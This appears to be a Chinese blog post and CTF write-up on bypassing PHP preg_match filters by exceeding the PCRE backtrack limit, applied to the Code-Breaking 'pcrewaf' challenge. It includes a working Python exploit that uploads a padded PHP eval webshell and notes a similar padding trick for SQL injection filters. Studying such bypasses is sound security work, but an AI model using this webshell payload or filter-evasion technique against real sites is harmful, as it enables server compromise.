









preg_match函数绕过
pcre回溯
引用自p神
DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入
NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限pcre.backtrack_limit。我们可以通过var_dump(ini_get('pcre.backtrack_limit'));的方式查看当前环境下的上限：

Codebreaking-pcrewaf（贪婪模式）

通过本题正则很明显可以看出来是对webshell一句话传入，我们需要绕过正则达到getshell的目的。
没什么高级姿势，只能翻看别人的writeup。
上文中pcre回溯中只要超过pcre.backtrack_limit上限就会抛出error。不满足if(is_php(#data))进而进入else语句文件正常创建。就能在header中看见文件地址
pcre回溯分析gif
对<?php phpinfo();//aaaaaa进行实验
总共14步完成pcre对字符匹配

由于 .*其实一共四步就能匹配到所有字符

但是由于pcre回溯会查找[(\`;?>] 字符，
第5～12步 从//aaaaaa最后一个a往前回溯直到匹配到 " ; " 完成[(\`;?>]中的匹配
第13～14步 执行最后的.*重新匹配//aaaaaa

exp
import requests
from io import BytesIO
files = {
'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}
res = requests.post('http://127.0.0.1:8088/index.php', files=files, allow_redirects=False)
print(res.headers)

非贪婪模式下的绕过

使用union/*aaaaaaaaaaaa*/select匹配正则
由于?存在，只用匹配一次，之后交给S匹配。如果S不匹配回溯交由?匹配，如此往复。
这里就存在pcre.backtrack_limit回溯问题。

本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！